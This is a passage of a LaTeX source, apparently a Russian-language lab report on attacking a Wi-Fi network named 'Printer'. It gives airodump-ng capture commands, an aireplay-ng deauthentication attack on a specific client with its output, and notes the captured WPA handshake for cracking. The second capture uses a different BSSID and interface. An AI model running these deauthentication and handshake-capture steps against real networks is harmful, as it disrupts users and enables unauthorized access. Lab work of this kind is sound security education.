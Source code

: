 Нас интересует сеть Printer.

Запустим сбор трафика для получения аутентификационных сообщений:

\begin{lstlisting}
artyom@artyom-Inspiron-7348:~$ sudo airodump-ng mon0 --write airdump --bssid 12:FE:ED:E5:BD:01 -c 6 
\end{lstlisting}

\begin{figure}[H]
	\centering
	\includegraphics[width=\textwidth]{figures/2.png}
	\caption{airodump}
\end{figure}

Произведем деаутентификацию одного из клиентов (клиента с MAC-адресом 
CC:FA:00:AB:87:F0), до тех пор, пока не удастся собрать необходимых для 
взлома аутентификационных сообщений.
\begin{lstlisting}
artyom@artyom-Inspiron-7348:~$ sudo aireplay-ng --ignore-negative-one --deauth 150 -a 12:FE:ED:E5:BD:01 -h CC:FA:00:AB:87:F0 mon0
06:25:42  Waiting for beacon frame (BSSID: 12:FE:ED:E5:BD:01) on channel 6
NB: this attack is more effective when targeting
a connected wireless client (-c <client's mac>).
06:25:42  Sending DeAuth to broadcast -- BSSID: [12:FE:ED:E5:BD:01]
06:25:43  Sending DeAuth to broadcast -- BSSID: [12:FE:ED:E5:BD:01]
06:25:43  Sending DeAuth to broadcast -- BSSID: [12:FE:ED:E5:BD:01]
06:25:53  Sending DeAuth to broadcast -- BSSID: [12:FE:ED:E5:BD:01]
06:26:03  Sending DeAuth to broadcast -- BSSID: [12:FE:ED:E5:BD:01]
06:26:04  Sending DeAuth to broadcast -- BSSID: [12:FE:ED:E5:BD:01]
\end{lstlisting}
В результате перехватываем пакет handshake:
\begin{lstlisting}
sba@sba-Lenovo-G580:~$ sudo airodump-ng mon1 --bssid D8:5D:4C:DA:F8:2E  -c 6 --write dump --ignore-negative-one
\end{lstlisting}

\begin{figure}[H]
	\centering
	\includegraphics[width=\textwidth]{figures/3.png}
	\caption{airodump}
\end{figure}

